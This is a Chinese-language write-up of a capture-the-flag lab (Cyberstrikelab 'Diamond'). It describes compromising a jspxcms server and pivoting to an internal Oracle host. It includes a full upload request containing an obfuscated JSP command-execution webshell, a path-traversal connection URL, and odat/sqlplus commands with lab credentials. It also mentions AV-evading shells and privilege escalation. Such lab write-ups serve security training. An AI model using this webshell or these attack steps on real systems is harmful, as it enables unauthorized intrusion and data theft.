# Cyberstrikelab Diamond Writeup


Cyberstrikelab Diamond Writeup

# 「Diamand」 打靶记录

扫描发现 8080 端口，访问，是一个内容管理系统


`Google` 检索到了 `jspxcms` 后台管理路径

```
cmscp/login.do
```



尝试弱口令无果，转向测试历史漏洞，`jspxcms` 的历史漏洞应该是蛮多的，找到一个前台文件上传，注册账号 -> 点击设置 -> 稿件发布，可以上传文件



上传木马，POST 包如下

```
POST /ueditor?ueditor=true&action=uploadimage HTTP/1.1
Host: 192.168.10.45:8080
...
Content-Length: 859

------geckoformboundary9896dee8fae223e579461dec813153ba
Content-Disposition: form-data; name="upfile"; filename="1.jsp"
Content-Type: image/jpeg

<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
if(request.getParameter("cmd")!=null){
    BASE64Decoder decoder = new BASE64Decoder();
    Class c = Class.forName(new String(decoder.decodeBuffer("amF5c3lzdGVtcy5lY2hvc2F0ZXM=")));
    Process p = (Process) c.getMethod("exec", new Class[]{String.class}).invoke(c.newInstance(), request.getParameter("cmd").getBytes());
    java.io.InputStream in = p.getInputStream();
    int i = 0;
    byte[] b = new byte[2048];
    while((i=in.read(b)) != -1){
        out.print(new String(b));
    }
    out.print("</pre>");
}
%>

------geckoformboundary9896dee8fae223e579461dec813153ba--
```


结果显示生成成功，文件类型为 `JSP`



访问却是 `404`，本应该是 `403`，没有权限访问



根据复现内容继续用路径穿越执行命令，失败，返回 `500 or 404` ，复现失败。其他漏洞的话，`SSRF` 漏洞需要搭配才有效果，反序列化根据介绍爆破 `Shiro` 框架密钥要几个小时，也暂时不去尝试，后台有文件上传漏洞，还得尝试爆破管理员账号密码
访问，嗯直接跳转进去了？怎么直接通过前台账号进后台了



后台什么信息也没有，左侧栏没有任务交互点，也许是最低权限账户的缘故



管理员密码爆破失败，此时卡住了，真去爆破几小时 `Shiro` 密钥么
突然想起来之前根据结果判断上传应该是落地了，但返回 `404` ，有没有可能是木马被杀了，再尝试一下上传有免杀效果的 `JSP` 马
使用 `ByPassGodzilla`生成 `JSP` 马



上传并使用哥斯拉连接，注意连接路径为

```
http://192.168.10.45:8080/app?template=/../../../../../uploads/1/image/public/202503/20250330043317_28a4yynja8.jsp?
```


连接成功！



终于进去了，先看杀软识别，发现 `360` 和 `Defender` 



上线CS，还是熟悉的掩日，CS 生成 C 文件再免杀



烂土豆提权


拿到 `Flag1`



登陆 `3389` 远程桌面



发现 C 盘底下存了一个用户名密码



顺手捡下数据库，可拿可不拿

```
net start mysql  //开启 mysql 服务
```




`stowaway` 搭建代理



`Fscan` 扫描内网机器，`Web` 网站应该是 `Orable` 数据库的默认页面，没有漏洞



拿之前 C 盘找到的账号密码测试 `SMB` 和 `WMI` 远程登录，失败；测试 `Orable` 数据库
这也是第一次碰到 `Orable`，边学边打，先用 `odat` 爆破 `SID` 

```
proxychains4 odat sidguesser -s 172.17.50.33
```
**SID: ORCL**



尝试命令行连接，但怎么连都没反应，可能是本地环境有问题

```
sqlplus 'cslab/cslab@123#wi@172.17.50.33:1521/ORCL'

sqlplus /nolog
connect cslab@'(DESCRIPTION=(ADDRESS=(PROTOCOL=TCP)(HOST=172.17.50.33)(PORT=1521))(CONNECT_DATA=(SERVICE_NAME=ORCL)))'
```


使用 `odat` 登录，返回了 `SQLShell`，但执行没结果

```
proxychains4 odat search -s 172.17.50.33 -p 1521 -U cslab -P cslab@123#wi -d ORCL --sysdba --sql-shell
```



`MDUT` 连接成功



但十分受限，文件功能只能看文件名，无法读取和上传文件，反弹 `Shell` 也报错




命令执行返回 `null`，但目标本地是执行成功的，上线远程桌面


连接成功



`Fscan` 扫描内网



打到这里 `CSLab` 突然宣布停服维护，那就稍等一天再继续打吧
